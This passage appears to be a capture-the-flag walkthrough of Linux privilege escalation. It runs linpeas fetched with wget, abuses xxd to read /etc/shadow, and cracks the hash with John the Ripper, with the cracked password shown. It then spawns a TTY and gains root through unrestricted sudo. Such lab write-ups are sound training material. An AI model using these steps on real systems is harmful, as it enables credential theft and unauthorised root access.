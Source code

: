 We setup a local webserver with python3 in a folder we already have linpeas.sh ready.

``python3 -m http.server``

After that we navigate to /tmp/ and wget "http://ip:8000/linpeas.sh" and download linpeas. Make it executeable
`chomd +x ./linpeas.sh` and run it.

Linpeas shows us /usr/xxd as a possible escalation vector, we search GTFObins and we find it can read files :
https://gtfobins.github.io/gtfobins/xxd/

We use this to harvest the /etc/shadow file so we can decode the user password for vianka.

NOw that we have both the /etc/passwd and /etc/shadow files, we can use John the Rippper to decode it using rockyou.txt.

```
unshadow passwd shadow > unshadowed
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beautiful1       (vianka)
1g 0:00:00:00 DONE (2021-10-01 09:54) 1.960g/s 2509p/s 2509c/s 2509C/s kucing..poohbear1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Now we have the password! we upgrade our simple webshell to a more interactive TTY with the python3 command:
`python -c 'import pty; pty.spawn("/bin/bash")'`

From here we can switch user to vianka using the password we found earlier:
su - vianka
Password: beautiful1

Now that we have local user access, the first thing i always check if sudo is incorrectly configured. and behold, vianka is allowed to sudo whatever she wants.

```
sudo -l
password:beautiful1

Matching Defaults entries for vianka on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vianka may run the following commands on ubuntu:
    (ALL : ALL) ALL
```

This means we can simply switch user to root and get the flag:

```
sudo su -
```

and here we are, pwned. cat root.txt gives us the flag.
